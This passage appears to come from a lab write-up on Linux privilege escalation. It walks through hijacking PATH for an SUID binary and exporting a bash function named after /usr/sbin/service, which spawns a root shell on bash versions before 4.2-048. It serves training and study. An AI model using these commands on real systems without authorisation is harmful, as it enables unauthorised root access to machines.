 Manipulate the path variable and execute the binary to gain a `privilege shell`.
{% capture code %}{% raw %}PATH=.:$PATH /usr/local/bin/suid-env{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 14 - SUID / SGID Executables - Abusing Shell Features (#1)

In `bash` versions less than `4.2-048`, it is possible to define shell functions with names that resemble file paths, export those functions and are used instead of executable at actual file path.

From the previous `suid` output, the file `/usr/local/bin/suid-env2` can be tried to exploit. Upon trying to execute the binary, the following output can be seen.
{% capture code %}{% raw %}[....] Starting web server: apache2httpd (pid 1653) already running
. ok {% endraw %}{% endcapture %} {% include code.html code=code %}

The binary can be decoded to find any possible exploit using `strings /usr/local/bin/suid-env2`. The output will be similar to
{% capture code %}{% raw %}/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start{% endraw %}{% endcapture %} {% include code.html code=code %}

The version of `bash` can be found using `/bin/bash --version`. The output is similar to
{% capture code %}{% raw %}GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.{% endraw %}{% endcapture %} {% include code.html code=code %}

Create a `shell function` to spawn a `privilege shell`.
{% capture code %}{% raw %}function /usr/sbin/service { /bin/bash -p; }{% endraw %}{% endcapture %} {% include code.html code=code %}

Export the function to be made avaiable to current shell.
{% capture code %}{% raw %}export -f /usr/sbin/service{% endraw %}{% endcapture %} {% include code.html code=code %}

Execute the binary to gain a `privilege shell`.
{% capture code %}{% raw %}/usr/local/bin/suid-env2{% endraw %}{% endcapture %} {% include code.html code=code %}
